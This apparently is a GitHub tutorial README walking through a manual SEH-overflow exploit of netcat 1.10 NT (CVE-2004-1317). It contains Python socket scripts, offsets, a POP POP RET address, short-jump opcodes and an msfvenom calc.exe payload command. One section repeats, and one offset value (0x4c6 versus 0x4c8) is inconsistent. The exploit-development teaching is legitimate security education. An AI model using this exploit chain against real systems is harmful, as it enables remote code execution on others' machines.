



## CVE-2004-1317

* SEH Overflow for netcat.exe 1.10 NT 
* included by default as a resource in Kali -> `/usr/share/windows-resources/binaries/nc.exe`
* on target: `.\nc.exe -n -v -L -p <port> -e ftp`
* the vulnerability stems from `doexec.c` when netcat is used to bind (-e) an executable to a port.

Fuzzing netcat quickly identifies the ability to overwrite SEH.

There are plenty of advanced and automated methods available for jumping around in memory. This aims to summarize how and what when doing it manually.

**Tested on:**

* Windows XP x86
* Windows 7 x86
* Windows 10 x64

## Why Does This Repo Exist?

Netcat was my first introduction into "this is packaged with legitimate software but Windows says it's a hacking tool, and I don't know what that means. Have I been hacked? Am I currently hacking?" A few years later I returned to netcat much less afraid and also ready to write an SEH overflow.

At the same time, using an easier vulnerability made it possible to focus on documenting and describing my steps. Walking through this process was a good introduction to a mindset and workflow in writing about this type of information. No matter how trivial the problem to solve I encourage you do the same and practice self documenting your projects and home lab experiences as if they were meant to be read by an audience if you don't already!

Also huge thanks to TCM, where this journey started:
	
https://www.youtube.com/c/TheCyberMentor/videos


## Useful references

- https://www.coalfire.com/The-Coalfire-Blog/January-2020/The-Basics-of-Exploit-Development-1
- https://www.coalfire.com/The-Coalfire-Blog/March-2020/The-Basics-of-Exploit-Development-2-SEH-Overflows
- https://www.coalfire.com/The-Coalfire-Blog/May-2020/The-Basics-of-Exploit-Development-3-Egg-Hunters
- https://www.coalfire.com/The-Coalfire-Blog/July-2020/The-Basics-of-Exploit-Development-4-Unicode-Overfl
- https://www.coalfire.com/the-coalfire-blog/september-2020/the-basics-of-exploit-development-5-x86-64-buffer


## A Note On Opcodes and Assembly

Using the nasm shell ruby script built in to Kali, you can convert any assembly instructions into their opcodes:
```bash
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > push ecx
00000000  51                push ecx
```

As you'll see below you can use !mona to convert desired instructions to opcodes that plug into a payload, for example:
```bash
!mona assemble -s push ecx
```

But it's nice to have documentation on hand. Intel's developer manuals covering assembly can be found in various forms here:

<https://software.intel.com/content/www/us/en/develop/articles/intel-sdm.html>

The "Four-Volume Set" on that page splits the entire manual into 4 pdf's. Version 2 is a complete listing of the instruction sets, linked here:

<https://software.intel.com/content/www/us/en/develop/download/intel-64-and-ia-32-architectures-sdm-combined-volumes-2a-2b-2c-and-2d-instruction-set-reference-a-z.html>

A Ctrl+F search for "short jump" returns all possible opcodes for short jumps, architecture specific notes, detailed descriptions, etc.

Different documents exist for other instances. [NASM](https://www.nasm.us/doc/), [Oracle](https://docs.oracle.com/cd/E26502_01/html/E28388/index.html), etc.

## Poblem to solve:

How to jump back into memory to where the injection starts, as there's little room after the SEH.

(leaving egg hunting and other techniques aside for the sake of this example)

This is all about converting hex to decimal values to do basic math to find where to jump from, and how far **without hard coding an address**.

## Calculating register offsets

Reviewing the CPU pane (if using [immunity](https://www.immunityinc.com/products/debugger/) or [x64dbg](https://github.com/x64dbg/x64dbg)) and looking at where our injection starts among the instructions present, shows the first occurance of our hex represantation of A, which is "41" at the address of "013EFEAC". 

The exact addresses don't matter outside of this example. They will be different each time, but **the offset remains the same**.

Note the **offsets will be different depending on the version of Windows**.

Reviewing the register values shows ECX has a location relatively close to the start of that injection, in this case "013EF9E4"
  
Using `echo $((16#<register-address>))` you can convert these addresses into decimal values.

*NOTE: you can follow along without bash using the calculator app in Windows, macOS, or Linux, by setting it to progamming mode, entering hex values, and changing them to decimal (or decimal to hex).*

```bash
$ echo $((16#013EF9E4))
20904420
                                                                                                                                                   
$ echo $((16#013EFEAC))
20905644
```                                                                                                                                                   

This makes it easier to calculate the difference:

```bash
$ python3 -c "print(20905644-20904420)"
1224
```

With the goal being to feed that difference back into our payload, we need the hex representation of that difference.

To convert a decimal value to hex:

```bash 
$ printf '%x\n' 1224
4c8

```
Ask mona to provide the assembly instructions to add that difference to the ECX register:

```bash
# The value of 4c8 (0x4c8) is entered backwards as "\xc8\x04" (little endianne), just after "\x81\xc1"
!mona assemble -s add ecx, 0x4c8
\x81\xc1\xc8\x04\x00\x00 
```

Alternatively without mona, you can use the nasm_shell.rb script in Kali:

```bash
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > add ecx, 0x4c8
00000000  81C1C8040000      add ecx,0x4c8
```

and lastly, also the instructions to Jump to ECX once the value pointing to our shellcode is loaded in that register:

```bash
# ESP jumps to your shellcode
!mona assemble -s jmp ecx
\xff\xe1          
```

```bash
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp ecx
00000000  FFE1              jmp ecx
```


# Walkthrough
  
Below is a step by step walkthrough of the process with screen captures as reference.


## Overwriting the SEH

Generate a pattern of alpha-numeric characters using Kali's built-in msf-pattern_create:
```bash
$ msf-pattern_create -l <length>
```
and send that string of characters to a listening instance of netcat. For this example we'll use python3:

```python3
#!/usr/bin/python3

import sys,socket

# target machine running netcat
host = "192.168.1.108"

# port netcat is listening on
port = 31337

# Our pattern / the data being sent
payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9"

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect((host,port))
#banner = s.recv(1024)
#print(banner.decode())

exploit = "".encode() + bytearray(payload) + "\r\n".encode()

s.send(exploit)

s.close()
```

This quickly identifies the ability to overwrite the SEH (See our pattern has overwritten the SE Handler in the bottom right pane):


*NOTE: in fuzzing some applications you will need to prepend the payload with data which the application may be expecting, so that a specific (perhaps even vulnerable) function parses the payload. A good example of this is vulnserver, where you must send "TRUN" or any of the other commands in front of the payload so the TRUN function parses that data. Some of the vulnserver functions are not exploitable. Here netcat's main functionality of ingesting and parsing any data is exploitable.*


## Quick Refresher

"length" in all cases is up to you to determine by observing the application at runtime, or in a debugger like we are here.

Input that causes the application to crash, and or overwrite a location in memory (SEH) may give us execution control of the application.

Next to "SE Handler" you'll see a section of our pattern "6A41376A" along with "jA7j".

That "jA7j" is the ascii representation of our hex pattern.

You can do this conversion yourself by piping ascii data to the xxd binary:

```bash
$ echo "j7Aj" | xxd
00000000: 6a37 416a 0a		j7Aj.
```

Take note the platform architecture is x86, which means the bytes are represented in little-endianne (backwards).

That's why our pattern "6A 41 37 6A" is returned by xxd as "6A 37 41 6A".

If it helps to visualize it, A in hex is 41. That's why both 4 and 1 stay in sequence despite the pattern being backwards, rather than going entirely backwards as "14"


## Verify the Offset

Feed the section of our pattern that landed on the SEH back to `msf-pattern_offset`:

```bash
$ msf-pattern_offset -l 600 -q 6A41376A
[*] Exact match at offset 292
```

Confirm this by placing four B's at the offset. Example of the code at this point:

```python3
#!/usr/bin/python3

import sys,socket

host = "192.168.1.108"
port = 31337

#payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9"

payload = b"A" * 292
payload += b"B" * 4
payload += b"C" * (600 - len(payload))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect((host,port))
#banner = s.recv(1024)
#print(banner.decode())

exploit = "".encode() + bytearray(payload) + "\r\n".encode()

s.send(exploit)

s.close()
```

Sending the payload to netcat shows the four B's in hex (42424242) overwriting SE Handler:


Passing the exception with Shift+F9, the four B's land in EIP (highlighted in the top right pane):



*NOTE: in some cases you'll get the first four C's into EIP instead, simply adjust your offset length accordingly.*

This confirms we have execution control. How do we turn this into a working exploit?

Using !mona also reveals netcat is not compiled with any memory protections (Rebase, SafeSEH, ASLR, NXCompat, are all 'FALSE')


and in addition to that, if we try, we can successfully execute a POP POP RET instruction from the netcat binary itself. This is great since it has no dll's to do this with as you normally might, and the Windows kernel modules are less favorable in this case for building a repeatable exploit.

## Find a POP POP RET Address

In Immunity, View > Executable Modules > double click your target .dll/.exe without memory protections

Right click assembly (top left) pane > search for > sequence of commands > POP R32 POP R32 RET

In x64dbg, Search for > All User Modules > Command > `ret`, search through each for a pop pop ret sequence



In all cases, **Avoid using POP addresses touching EBP or ESP**

Ensure the module does not have DEP/ASLR/SafeSEH etc.

CTRL+L to cycle through other matches in immunity:


Place a breakpoint (Toggle or F2) on the address of the first POP instruction to prepare to test:


Back in your python code:

Replace 42424242 with the first POP address in the POP POP RET sequence.

Subsequently, replace the 4 bytes before 42424242 with EB,06,90,90. This short jump (\xEB) of six bytes (\x06) is enough to jump over the SEH, giving us control of the execution flow.

"EB" is the opcode for a short jump, "06" being how many bytes to jump. "90" is a nop, or no operation; it doesn't execute anything and keeps the stack moving. If you've head of the term "NOP Sled" it makes a good visual reference of how to use a sequence of NOP's as padding.


## A Note On Opcodes and Assembly

Using the nasm shell ruby script built in to Kali, you can convert any assembly instructions into their opcodes:
```bash
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > push ecx
00000000  51                push ecx
```

As you'll see below you can use !mona to convert desired instructions to opcodes that plug into a payload, for example:
```bash
!mona assemble -s push ecx
```

You can also download a pdf copy of intel's assembly developer manuals to have a full reference of instruction sets to understand what they do as you need them:

Volume 2 focuses on the opcodes

<https://software.intel.com/content/www/us/en/develop/articles/intel-sdm.html>

A Ctrl+F search for "short jump" returns all possible opcodes for short jumps, architecture specific notes, detailed descriptions, etc.


## Jumping back to the Short Jump

Why do we need a short jump instruction? Currently the SEH is executing POP,POP,RET. This sequence is a commonly found instructions set (making it reliable) and RET returns execution directly back to the stack. The next thing to be executed in the stack? Our short jump. The short jump allows us to 'jump over' or skip the space in the stack where the SE Handler sits. If we didn't do this, it would catch execution again, meaning SEH has control instead of our code. This is the foundation of how we're redirecting execution by injecting our own instruction.

Remember to account for the 4 bytes the short jump instruction adds so the offset still matches.

Our python code at this point:

```python3

#!/usr/bin/python3

import sys,socket

host = "192.168.1.108"
port = 31337

#payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9"

#payload = b"A" * 292
#payload += b"B" * 4

payload = b"A" * 288			# subtract 4 from our offset at 292 to make room for "\xeb\x06\x90\x90"
payload += b"\xeb\x06\x90\x90"      	# short jump +6
payload += b"\x20\x53\x40\x00"      	# first pop address

payload += b"C" * (600 - len(payload))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect((host,port))
#banner = s.recv(1024)
#print(banner.decode())

exploit = "".encode() + bytearray(payload) + "\r\n".encode()

s.send(exploit)

s.close()
```

Sending this over to netcat and passing the exception (Shift+F9) will have one of two outcomes.

Either the POP address in the POP POP RET set you chose is bad (that spot in memory shifts during execution, is unstable, etc)

Or you land at your breakpoint, and you can succssfully step through (pressing F7 to step in immunity debugger) the POP POP RET execution (top left pane):


After which, your short jump instructions are up next (top left pane again):


Stepping through those shows we've successfully jumped over the SE Handler and are now in the "C's" (C is "43" in hex) of our payload (top left pane again):


Which doesn't have much room to inject further instrucitons.

If we look behind us, there's still all the room in the "A's" available:


## The problem to solve:

How to jump back into memory to where the injection starts, as there's little room after the SEH.

(leaving egg hunting and other techniques aside for the sake of this example)

This is all about converting hex to decimal values to do basic math to find where to jump from, and how far.

If we scroll the CPU pane (top left pane) up to where our injection starts we see the first occurance of our hex represantation of A, which is "41" at the address of "013EFEAC" (top left pane):


Looking at the data registers in the top right pane, what sticks out is that one of the registers has a value close to that memory location.

ECX (top right pane) currently holds a value of "013EF9E4" (highlighted in blue above)

Hypothetically if we calculate the difference from our first A to ECX, and add that difference to ECX so that ECX now points to the first A address, we can execute `jmp ecx` to jump there, right?


## Calculating Register Offsets

The reason for this is so the exploit is repeatable. You may be wondering why we can't simply load the address of the first A into a register such as EBX and then say JMP EBX:
```bash
nasm > add ebx, 0x0136F1F8
00000000  81C3F8F13601      add ebx,0x136f1f8
nasm > jmp ebx
00000000  FFE3              jmp ebx
```

It's because that address may not always be the same, when restarting the application the addresses may change. What *may not* change, is the offset of values in certain registers when running the application and sending it the payload. If ECX is always X amount away from where our A's start, then we can leverage this fact to make the exploit repeatable without hardcoding an address by using the offset value.

This should be the key take-away from this walkthrough, how to convert all of these values and use the basic math to move around memory as needed using assembly instructions.

EXAMPLES:

```bash
echo $((16#<address-where-A's-start>))
echo $((16#<nearest-register-address>))
echo $((16#0140FEAC))
echo $((16#0140F9E6))
```
In this case, the nearest register was ECX (it may be different for you and/or for other applications)

You can subtract the smaller value from the larger to find the offset (remember this is telling us how many **bytes** the offset is)
This is the same as finding the SEH or EIP offset, only here we're finding the nearest register address offset from the start of our shellcode in memory.

```python3
>>> print(<address-where-As-start>-<nearest-register-address>)

# Example:
>>> print(20905644-20904420)
1224
```

So the register offset is 1224 bytes.
Next convert the resulting decimal back into hex so we can use it in our payload:

```bash
printf '%x\n' <offset>
printf '%x\n' 1224
4c8
```


	
Then mona does the rest
```bash
## EXAMPLE:
!mona assemble -s add ecx, 0x<offset>    ; \x81\xc1\x??\x??\x00\x00      Adds the offset value to that nearby register

## REAL INSTRUCTIONS:
!mona assemble -s add ecx, 0x4c6         ; \x81\xc1\xc8\x04\x00\x00      The 4c8 value is backwards, and just after "\x81\xc1\xc" (little endianne) 
!mona assemble -s push ecx               ; \x51                          Push ECX value onto the stack, may not be necesary
!mona assemble -s pop ecx                ; \x59                          Pop ECX so ESP points there next, may not be necesary
!mona assemble -s jmp ecx                ; \xff\xe1                      ESP jumps to your shellcode
```


Putting this all together for our complete payload, starting just after `POP,POP,RET` at our short jump:
	


We jump over the SEH handler, to the `ADD ECX, <offset>` instruction:
	


The ECX register (top right pane) is now pointing directly to the start of the injection point:
	


Pop ECX:
	


Next, Jump to the ECX register now that it's pointing to our injection point:
	


Which gives us over 200 bytes of space for shellcode:
	

	
Here is where you generate your shellcode with `msfvenom` and add it to your python script. In this example we'll use the following:

```bash
msfvenom -p windows/exec CMD="calc.exe" -a x86 -f python -b '\x00\x0a\x0d'
```

Four NOPS (x90) have been added to the start of the payload in our python script, as additional padding. This is not necessary if you have the exact offset and land on it reliably. In this case it's helpful as visual reference to see the NOPs followed by shellcode.

Now when we land at our injection point we see our payload:

What's worth seeing if this is new for you, is on immunity by holding down the 'step-through' hotkey, you can observe the malware decoding itself in memory.


Disconnecting netcat from immunity debugger and running it with `.\nc.exe -n -v -L -p <port> -e ftp` allows us to send the payload and see it execute in real time. The result is remote code execution by running the calculator app without user interaction:
	


## Conclusion
	
Now imagine if the code wasn't to run calc.exe, but instead open a port on your firewall, or send a web request. Running the calculator is a common way to prove the exploit works and can execute code. 
	
Even more interesting at the time of writing this script, Windows Defender did nothing to stop the code from running after 1) netcat was allowed to run on the system, and 2) the user permitted it to access the network. This makes me wonder how many apps over the years have requested administrative privileges to install, and / or also require network access by opening inbound ports on the firewall. Keeping your inbound ports closed will mitigate many of the potential risks on your local network.

Around the time of publishing this as a 'cheatsheet', it's interesting to note with vulnserver in particular, you can still gain RCE against it, however Windows Defender is now able to detect and stop activity if you drop into a plain unencrypted `windows/shell_reverse_tcp` and start traversing the filesystem.
